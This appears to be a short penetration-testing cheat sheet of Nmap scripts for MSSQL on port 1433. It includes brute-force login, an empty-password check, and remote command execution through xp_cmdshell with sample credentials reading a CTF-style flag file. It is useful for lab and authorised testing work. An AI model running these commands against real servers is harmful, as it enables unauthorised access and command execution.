 ```yaml
---
up: "[[SQL]]"
---
```


# MSSQL Nmap Scripts

Port 1433 is default port.

```bash
nmap <ip> -p 1433 --script ms-sql-info
nmap <ip> -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap <ip> -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt
nmap <ip> -p 1433 --script ms-sql-empty-password
```

```bash
nmap <ip> -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```
